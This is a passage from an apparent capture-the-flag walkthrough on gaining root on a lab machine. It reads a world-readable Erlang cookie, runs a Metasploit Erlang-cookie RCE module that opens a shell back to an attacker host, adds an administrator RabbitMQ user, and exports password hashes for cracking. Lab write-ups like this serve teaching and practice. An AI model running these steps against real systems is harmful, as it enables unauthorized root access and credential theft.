 ```console
uid=1000(azrael) gid=1000(azrael) groups=1000(azrael)
azrael@forge:~/chatbotServer$ wc -c /home/azrael/user.txt
33 /home/azrael/user.txt
```

## Shell as root

### Obtaining Erlang Cookie

While enumerating the file system, we notice that the `/var/lib/rabbitmq/.erlang.cookie` file, which holds the **Erlang Cookie**, is world-readable. By reading this file, we can obtain the **Erlang Cookie**.

```console
azrael@forge:~$ ls -la /var/lib/rabbitmq/.erlang.cookie
-r-----r-- 1 rabbitmq rabbitmq 16 Feb 23 04:45 /var/lib/rabbitmq/.erlang.cookie
azrael@forge:~$ cat /var/lib/rabbitmq/.erlang.cookie
azrael@forge:~$ m0hOx5SGVy4bLLD5
```

Using metasploit to get a shell:
```console
msfconsole -q
use exploit/multi/misc/erlang_cookie_rce
set rhosts 10.10.176.211
set lhost 10.23.16.4
set cookie m0hOx5SGVy4bLLD5
run
```
![Rabbitmq Hash](2.webp){: width="800" height="400"}

We can create the user and export the definitions

```console
rabbitmqctl add_user 0xb0b 0xb0b 
rabbitmqctl set_permissions -p / 0xb0b ".*" ".*" ".*"
rabbitmqctl set_user_tags 0xb0b administrator
rabbitmqadmin export rabbit.definitions.json -u 0xb0b -p 0xb0b
cat rabbit.definitions.json
```
![Rabbitmq Hash](4.webp){: width="800" height="400"}

As we can see, we have received a hash of the amount of the user's password. We need the hash amount of the root user.

### Discovering Root Password

From the username, it appears that the password for the `root` user on the target is the **SHA-256 hash** of the `root` user's password on the **RabbitMQ** instance. We can retrieve this hash using the `export_definitions` command:


The hash we received is in **base64** and according to the [RabbitMQ documentation](https://www.rabbitmq.com/docs/passwords#this-is-the-algorithm), it follows the structure: **`base64(<4 byte salt> + sha256(<4 byte salt> + <password>))`**.

